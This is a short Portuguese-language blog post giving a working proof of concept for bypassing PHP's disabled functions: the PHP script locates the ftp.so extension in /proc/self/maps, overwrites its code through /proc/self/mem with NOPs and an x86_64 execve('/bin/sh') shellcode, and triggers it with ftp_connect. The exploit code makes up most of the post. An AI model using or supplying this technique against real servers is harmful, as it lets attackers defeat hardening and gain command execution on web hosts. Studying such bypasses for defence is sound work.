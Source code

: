 ```yaml
---
layout: post
comments: true
title: "PHP bypass injetando shellcode"
---
```


Vou escrever sobre um jeito de injetar shellcode no php, e executar comandos
no sistema, burlando possiveis funções desabilitadas como system e shell_exec,
por exemplo, infelizmente essa tecnica não permite burlar todo o safe_mode
do php, porque tem a limitação do open_basedir, essa é unica limitação
propriamente dita, e se as funções para leitura de arquivo, e a função seek
também estiverem desabilitadas então não funciona.

-- show the code --

A tecnica funciona da seguinte maneira, o php vai carregar varias extensões 
na memoria, e ai vamos pegar o range de memoria de uma extensão qualquer,
e vamos sobrescrever com nops e com o shellcode, e no codigo php iremos
chamar uma função que corresponde a extensão sobrescrita, quando ela chamar a
lib que foi sobrescrita, BOOM, vai executar o shellcode.

## poc

{% highlight php %}
<?php

	/* getting address range of extesion */
	function get_extension_range($name){
		$maps = fopen("/proc/self/maps", "r");
		while(!feof($maps)){
			$line = fgets($maps);
			if( preg_match("/(\w+)-(\w+)\s*r-xp.*modules\/${name}.*/", $line, $matches) ){
				fclose($maps);
				return array(hexdec($matches[1]), hexdec($matches[2]));
			}
		}
		return array();
	}

	function generate_shellcode($range, $shellcode){
		$sc = str_repeat("\x90", $range[1]-$range[0]-strlen($shellcode));
		$sc .= $shellcode;
		return $sc;
	}

	function write_memory($position, $string){
		$mem = fopen("/proc/self/mem","w+");
		fseek($mem, $position);
		fwrite($mem, $string);
	}

	$range = get_extension_range("ftp.so");

	if(empty($range)){
		die("failed to find extension...");
	}

	/* execve("/bin/sh", ["/bin/sh"], NULL) for linux x86_64 */
	$shellcode = "\x48\x31\xff\x48\xf7\xe7\xb0\x3b\x48\xbf\x66".
			 "\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08".
			 "\x57\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";

	$shellcode_with_nops = generate_shellcode($range, $shellcode);
	write_memory($range[0], $shellcode_with_nops);


	/* call extension to exec shellcode */
	ftp_connect("matrix");



?>
{% endhighlight %}
<center>
<script type="text/javascript" src="https://asciinema.org/a/83869.js" id="asciicast-83869" async></script>
</center>
